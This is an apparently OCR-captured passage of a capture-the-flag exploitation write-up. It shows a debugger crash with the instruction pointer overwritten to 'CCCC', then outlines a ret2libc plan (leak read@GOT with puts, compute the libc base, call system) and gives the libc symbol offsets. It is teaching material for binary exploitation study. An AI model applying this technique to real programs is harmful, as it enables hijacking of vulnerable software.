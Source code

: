```bash
*ESI  0xf7fca000 ◂— 0x1b1db0
*EBP  0xffffd618 —▸ 0xffffd638 ◂— 0x0
*ESP  0xffffd5ec —▸ 0x804893f ◂— add    esp, 0x10
*EIP  0x43434343 ('CCCC')
─────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────
Invalid address 0x43434343

──────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffffd5ec —▸ 0x804893f ◂— add    esp, 0x10
01:0004│      0xffffd5f0 —▸ 0x804b008 ◂— 'CCCCDDD\n'
02:0008│      0xffffd5f4 —▸ 0xffffd608 ◂— 0xa30 /* '0\n' */
03:000c│      0xffffd5f8 ◂— 0x4
... ↓
05:0014│      0xffffd600 —▸ 0xffffd628 —▸ 0xffff0a33 ◂— 0x0
06:0018│      0xffffd604 ◂— 0x0
07:001c│      0xffffd608 ◂— 0xa30 /* '0\n' */
────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────
 ► f 0 43434343
   f 1  804893f
   f 2  8048a8a
   f 3 f7e30637 __libc_start_main+247
Program received signal SIGSEGV (fault address 0x43434343)
```

## Exploit
We get EIP control.
Next, execute the exploit.

Plan:
1. puts() the read@GOT function address
2. Leak libc base address by subtracting offset of read@GOT function address
3. Calculate libc base address + system()
4. Send system() address
5. Execute system()

If libc address leak is possible, there is no problem even if it is not read@GOT function.

Function offset.
```bash
$ nm -D libc_32.so.6 | grep system
- snip -
0003a940 W system
```

```bash
$ nm -D ./libc_32.so.6 | grep read
- snip -
000d41c0 W read
- snip -
```
